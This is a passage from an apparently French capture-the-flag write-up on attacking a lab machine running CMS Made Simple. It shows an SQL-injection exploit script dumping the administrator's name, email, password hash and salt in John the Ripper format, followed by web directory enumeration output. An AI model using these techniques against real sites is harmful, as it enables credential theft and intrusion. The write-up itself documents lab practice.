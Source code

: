 Il y a une option qui revient à faire ce que le précédent exploit faisait :

```bash
$ python exploit.py --admin-hash http://192.168.56.76/
admin name: christophe
admin email: christophe@christophe.local
admin hash: 7908b1494f82ed320b288a0e839bfbc5
salt: 932129a6bd8545bd
JohnTheRipper hash: christophe:$dynamic_4$7908b1494f82ed320b288a0e839bfbc5$932129a6bd8545bd:::::::
```

Le petit bonus c'est que ça donne aussi le hash dans un format utilisable par `JohnTheRipper` :)

## DIDN'T CLEAN UP LOL

Ok revenons à nos moutons : j'ai passé des heures sur cette failel SQL et au final il n'y a rien d'intéressant à à trouver. L'auteur du CTF a confirmé qu'il n'y avait pas d'étape de cassage de hash et comme on est sur une injection dans une requête `SELECT` on ne peut pas altérer la base de données.

De plus ici la version doit MySQL doit être trop récente pour visiblement autoriser les `LOAD_FILE` et `INTO OUTFILE` hors de certains chemins prédéfinis...

Une énumération web ne semble rien retourner qui sorte du cadre de *CMS Made Simple* :

```
301        9l       28w      314c http://192.168.56.76/admin
301        9l       28w      312c http://192.168.56.76/lib
301        9l       28w      316c http://192.168.56.76/uploads
301        9l       28w      316c http://192.168.56.76/modules
301        9l       28w      315c http://192.168.56.76/assets
301        9l       28w      319c http://192.168.56.76/lib/assets
301        9l       28w      329c http://192.168.56.76/lib/assets/templates
301        9l       28w      320c http://192.168.56.76/lib/classes
301        9l       28w      323c http://192.168.56.76/modules/Search
301        9l       28w      330c http://192.168.56.76/modules/Search/images
301        9l       28w      333c http://192.168.56.76/modules/Search/templates
301        9l       28w      312c http://192.168.56.76/tmp
301        9l       28w      318c http://192.168.56.76/tmp/cache
301        9l       28w      329c http://192.168.56.76/lib/classes/internal
301        9l       28w      328c http://192.168.56.76/modules/Search/lang
301        9l       28w      312c http://192.168.56.76/doc
301        9l       28w      324c http://192.168.56.76/tmp/templates_c
301        9l       28w      316c http://192.168.56.76/install
301        9l       28w      324c http://192.168.56.76/admin/templates
301        9l       28w      322c http://192.168.56.76/admin/plugins
301        9l       28w      321c http://192.168.56.76/admin/themes
301        9l       28w      319c http://192.168.56.76/admin/lang
301        9l       28w      320c http://192.168.56.76/lib/plugins
301        9l       28w      323c http://192.168.56.76/uploads/images
301        9l       28w      322c http://192.168.56.76/assets/images
200        0l        0w        0c http://192.168.56.76/uploads/
200        1l        5w       24c http://192.168.56.76/doc/
200        1l        5w       24c http://192.168.56.76/modules/Search/templates/
200      127l     1218w        0c http://192.168.56.76/
```
